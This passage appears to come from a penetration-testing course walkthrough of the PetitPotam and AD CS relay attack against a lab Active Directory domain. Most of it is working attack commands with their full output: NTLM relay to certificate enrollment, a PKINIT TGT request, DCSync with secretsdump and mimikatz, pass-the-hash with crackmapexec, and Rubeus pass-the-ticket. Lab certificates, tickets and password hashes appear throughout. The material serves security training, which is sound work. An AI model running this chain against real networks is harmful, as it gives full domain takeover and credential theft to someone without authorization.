             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:172.16.5.5[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!

[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

#### Catching Base64 Encoded Certificate for DC01

Back in your other window, you will see a successful login request and obtain the base64 encoded certificate for the DC if the attack is successful.

```bash
d41y@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20211013.152215.3fe2d73a-py3.9.egg/impacket
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
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
[*] Skipping user ACADEMY-EA-DC01$ since attack was already performed

<SNIP>
```

#### Requesting a TGT using gettgtpkinit.py

Next, you can take this base64 certificate and use gttgtpkinint.py to request a TGT for the DC.

```bash
d41y@htb[/htb]$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache

2022-04-05 15:56:33,239 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-04-05 15:56:33,362 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-04-05 15:56:33,395 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-04-05 15:56:33,396 minikerberos INFO     70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275
INFO:minikerberos:70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275
2022-04-05 15:56:33,401 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

#### Setting the KRB5CCNAME Environment Variable

The TGT requested above was saved down to the ```dc01.ccache``` file, which you use to set the KRB5CCNAME environment variable, so your attack host uses this file for Kerberos authentication attempts.

```bash
d41y@htb[/htb]$ export KRB5CCNAME=dc01.ccache
```

#### Using DC TGT to DCSync

You can use this TGT with secretsdump.py to perform a DCSync and retrieve one or all of the NTLM password hashes for the domain.

```bash
d41y@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up... 
```

You could also use a more straightforward command: ```secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL``` because the tool will retrieve the username from the ccache file. You can see this by typing ```klist```.

```bash
d41y@htb[/htb]$ klist

Ticket cache: FILE:dc01.ccache
Default principal: ACADEMY-EA-DC01$@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/05/2022 15:56:34  04/06/2022 01:56:34  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

#### Confirming Admin Access to the DC

Finally, you could use the NT hash for the built-in Administrator account to authenticate to the DC. From here, you have complete control over the domain and could look to establish persistence, search for sensitive data, look for other misconfigurations and vulnerabilities for your report, or begin enumerating trust relationships.

```bash
d41y@htb[/htb]$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

#### Submitting a TGS Request for Yourself using getnthash.py

You can also take an alternate route once you have the TGT for your target. Using the tool getnthash.py from PKINITtools you could request the NT hash for your target host/user by using Kerberos U2U to submit a TGS request with the Privileged Attribute Certificate (_PAC_) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key you obtained when requesting the TGT earlier.

```bash
d41y@htb[/htb]$ python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
313b6f423cd1ee07e91315b4919fb4ba
```

#### Using DC NTLM Hash to DCSync

You can then use this hash to perform DCSync with secretsdump.py using the ```-hashes``` flag.

```bash
d41y@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```

#### Requesting TGT and Performing PTT with DC01$ Machine Account

Alternatively, once you obtain the base64 certificate via ntlmrelayx.py, you could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a PTT attack all at once.

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Building AS-REQ (w/ PKINIT preauth) for: 'INLANEFREIGHT.LOCAL\ACADEMY-EA-DC01$'
[*] Using domain controller: 172.16.5.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
 doIGUDCCBkygAwIBBaEDAgEWooIFSDCCBURhggVAMIIFPKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggTyMIIE7qADAgEXoQMC
      AQKiggTgBIIE3IHVcI8Q7gEgvqZmbo2BFOclIQogbXr++rtdBdgL5MPlU2V15kXxx4vZaBRzBv6/e3MC
      exXtfUDZce8olUa1oy901BOhQNRuW0d9efigvnpL1fz0QwgLC0gcGtfPtQxJLTpLYWcDyViNdncjj76P
      IZJzOTbSXT1bNVFpM9YwXa/tYPbAFRAhr0aP49FkEUeRVoz2HDMre8gfN5y2abc5039Yf9zjvo78I/HH
      NmLWni29T9TDyfmU/xh/qkldGiaBrqOiUqC19X7unyEbafC6vr9er+j77TlMV88S3fUD/f1hPYMTCame
      svFXFNt5VMbRo3/wQ8+fbPNDsTF+NZRLTAGZOsEyTfNEfpw1nhOVnLKrPYyNwXpddOpoD58+DCU90FAZ
      g69yH2enKv+dNT84oQUxE+9gOFwKujYxDSB7g/2PUsfUh7hKhv3OkjEFOrzW3Xrh98yHrg6AtrENxL89
      CxOdSfj0HNrhVFgMpMepPxT5Sy2mX8WDsE1CWjckcqFUS6HCFwAxzTqILbO1mbNO9gWKhMPwyJDlENJq
      WdmLFmThiih7lClG05xNt56q2EY3y/m8Tpq8nyPey580TinHrkvCuE2hLeoiWdgBQiMPBUe23NRNxPHE
      PjrmxMU/HKr/BPnMobdfRafgYPCRObJVQynOJrummdx5scUWTevrCFZd+q3EQcnEyRXcvQJFDU3VVOHb
      Cfp+IYd5AXGyIxSmena/+uynzuqARUeRl1x/q8jhRh7ibIWnJV8YzV84zlSc4mdX4uVNNidLkxwCu2Y4
      K37BE6AWycYH7DjZEzCE4RSeRu5fy37M0u6Qvx7Y7S04huqy1Hbg0RFbIw48TRN6qJrKRUSKep1j19n6
      h3hw9z4LN3iGXC4Xr6AZzjHzY5GQFaviZQ34FEg4xF/Dkq4R3abDj+RWgFkgIl0B5y4oQxVRPHoQ+60n
      CXFC5KznsKgSBV8Tm35l6RoFN5Qa6VLvb+P5WPBuo7F0kqUzbPdzTLPCfx8MXt46Jbg305QcISC/QOFP
      T//e7l7AJbQ+GjQBaqY8qQXFD1Gl4tmiUkVMjIQrsYQzuL6D3Ffko/OOgtGuYZu8yO9wVwTQWAgbqEbw
      T2xd+SRCmElUHUQV0eId1lALJfE1DC/5w0++2srQTtLA4LHxb3L5dalF/fCDXjccoPj0+Q+vJmty0XGe
      +Dz6GyGsW8eiE7RRmLi+IPzL2UnOa4CO5xMAcGQWeoHT0hYmLdRcK9udkO6jmWi4OMmvKzO0QY6xuflN
      hLftjIYfDxWzqFoM4d3E1x/Jz4aTFKf4fbE3PFyMWQq98lBt3hZPbiDb1qchvYLNHyRxH3VHUQOaCIgL
      /vpppveSHvzkfq/3ft1gca6rCYx9Lzm8LjVosLXXbhXKttsKslmWZWf6kJ3Ym14nJYuq7OClcQzZKkb3
      EPovED0+mPyyhtE8SL0rnCxy1XEttnusQfasac4Xxt5XrERMQLvEDfy0mrOQDICTFH9gpFrzU7d2v87U
      HDnpr2gGLfZSDnh149ZVXxqe9sYMUqSbns6+UOv6EW3JPNwIsm7PLSyCDyeRgJxZYUl4XrdpPHcaX71k
      ybUAsMd3PhvSy9HAnJ/tAew3+t/CsvzddqHwgYBohK+eg0LhMZtbOWv7aWvsxEgplCgFXS18o4HzMIHw
      oAMCAQCigegEgeV9geIwgd+ggdwwgdkwgdagGzAZoAMCARehEgQQd/AohN1w1ZZXsks8cCUlbqEVGxNJ
      TkxBTkVGUkVJR0hULkxPQ0FMoh0wG6ADAgEBoRQwEhsQQUNBREVNWS1FQS1EQzAxJKMHAwUAQOEAAKUR
      GA8yMDIyMDMzMDIyNTAyNVqmERgPMjAyMjAzMzEwODUwMjVapxEYDzIwMjIwNDA2MjI1MDI1WqgVGxNJ
      TkxBTkVGUkVJR0hULkxPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNJTkxBTkVGUkVJR0hULkxPQ0FM
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/INLANEFREIGHT.LOCAL
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  ACADEMY-EA-DC01$
  UserRealm                :  INLANEFREIGHT.LOCAL
  StartTime                :  3/30/2022 3:50:25 PM
  EndTime                  :  3/31/2022 1:50:25 AM
  RenewTill                :  4/6/2022 3:50:25 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  d/AohN1w1ZZXsks8cCUlbg==
  ASREP (key)              :  2A621F62C32241F38FA68826E95521DD
```

#### Confirming the Ticket is in Memory

You can then type ```klist``` to confirm that the ticket is in memory.

```powershell
PS C:\Tools> klist

Current LogonId is 0:0x4e56b

Cached Tickets: (3)

#0>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 3/30/2022 15:53:09 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x2 -> DELEGATION
        Kdc Called: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

#1>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 3/30/2022 15:50:25 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#2>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: cifs/academy-ea-dc01 @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 3/30/2022 15:53:09 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

#### Performing DCSync with Mimikatz

Again, since DCs have replication privileges in the domain, you can use the PTT to perform a DCSync attack using Mimikatz from your Windows attack host. Here, you can grab the NT hash for the KRBTGT account, which could be used to create a Golden Ticket and establish persistence. You could obtain the NT hash for any privileged user using DCSync and move forward to the next phase of your assessment.

```powershell
PS C:\Tools> cd .\mimikatz\x64\
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'inlanefreight\krbtgt' will be the user account
